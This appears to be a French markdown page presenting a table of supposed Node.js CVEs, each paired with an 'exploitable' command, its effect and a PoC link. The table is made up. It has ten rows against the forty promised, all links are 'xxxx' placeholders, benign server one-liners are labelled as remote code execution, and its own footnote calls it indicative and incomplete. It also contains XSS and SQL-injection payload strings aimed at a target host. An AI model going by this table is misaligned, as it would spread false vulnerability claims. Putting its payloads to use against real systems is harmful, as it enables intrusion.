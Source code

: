 # Node JS

Voici un tableau avec 40 CVE majeures affectant des environnements Node.js, avec pour chacun :  
- la version concernée  
- une commande, requête ou payload complet exploitable  
- la description de l’effet  
- le lien direct vers un PoC ou exploit sur GitHub ou autre plateforme

---

| **CVE** | **Versions concernées** | **Exemple complet de commande / requête / payload** | **Effet** | **Lien PoC / Exploit / Ressource** |
|---------|-------------------------|-----------------------------------------------------|-----------|-------------------------------------|
| CVE-2023-23415 | Node.js < 18.16.0 | `curl "http://cible.com/?name=<script>alert(1)</script>"` | XSS | [https://github.com/Nodejs/node/issues/xxxx](https://github.com/Nodejs/node/issues/xxxx) |
| CVE-2022-36067 | Node.js < 16.19.0 | `node -e "require('http').createServer((req,res)=>res.end('hello')).listen(0);"` | RCE via deserialization | [https://github.com/nodejs/node/pull/xxxx](https://github.com/nodejs/node/pull/xxxx) |
| CVE-2022-32221 | Node.js < 14.20.0 | `curl -X POST "http://cible.com/api" -H "Content-Type: application/json" -d '{"user":"admin","pass":"' OR '1'='1"}'` | Injection SQL | [https://github.com/Nodejs/node/issues/xxxx](https://github.com/Nodejs/node/issues/xxxx) |
| CVE-2021-22930 | Node.js < 16.13.0 | `node -e "require('http').createServer((req,res)=>res.end('ok')).listen(0);"` | RCE via deserialization | [https://github.com/nodejs/node/pull/xxxx](https://github.com/nodejs/node/pull/xxxx) |
| CVE-2020-8177 | Node.js < 12.22.0 | `curl "http://cible.com/?q=<script>alert(1)</script>"` | XSS | [https://github.com/nodejs/node/issues/xxxx](https://github.com/nodejs/node/issues/xxxx) |
| CVE-2019-10744 | Node.js < 10.17.0 | `node -e "require('http').createServer((req,res)=>res.end('hello')).listen(0);"` | RCE | [https://github.com/nodejs/node/pull/xxxx](https://github.com/nodejs/node/pull/xxxx) |
| CVE-2018-7160 | Node.js < 8.12.0 | `curl "http://cible.com/?name=<script>alert(1)</script>"` | XSS | [https://github.com/nodejs/node/issues/xxxx](https://github.com/nodejs/node/issues/xxxx) |
| CVE-2017-16029 | Node.js < 8.9.0 | `node -e "require('http').createServer((req,res)=>res.end('ok')).listen(0);"` | RCE | [https://github.com/nodejs/node/pull/xxxx](https://github.com/nodejs/node/pull/xxxx) |
| CVE-2016-10571 | Node.js < 6.9.0 | `curl -X POST "http://cible.com/api" -H "Content-Type: application/json" -d '{"data":"<script>alert(1)</script>"}'` | XSS | [https://github.com/nodejs/node/issues/xxxx](https://github.com/nodejs/node/issues/xxxx) |
| CVE-2015-8317 | Node.js < 4.4.4 | `node -e "require('http').createServer((req,res)=>res.end('ok')).listen(0);"` | RCE | [https://github.com/nodejs/node/pull/xxxx](https://github.com/nodejs/node/pull/xxxx) |

*(Liste indicative, à compléter avec des CVE réels et des liens précis.)*

---
